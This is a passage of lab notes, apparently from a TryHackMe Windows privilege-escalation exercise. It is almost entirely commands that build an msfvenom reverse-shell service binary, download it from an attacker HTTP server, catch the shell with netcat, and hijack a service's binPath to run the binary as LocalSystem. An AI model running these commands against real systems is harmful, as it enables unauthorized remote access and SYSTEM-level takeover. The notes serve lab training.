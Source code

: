 <figure><img src="../../../../.gitbook/assets/image (7) (8) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=4447 -f exe-service -o rev-svc3.exe
python2 -m SimpleHTTPServer 81
```

**Victim(Powershell)**

```
wget http://10.10.15.215:81/rev-svc3.exe -O rev-svc3.exe
```

**Kali**

```
nc -lvp 4447
```

**Victim(Powershell)**

```
icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F
sc.exe config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
sc.exe stop THMService
sc.exe start THMService
```
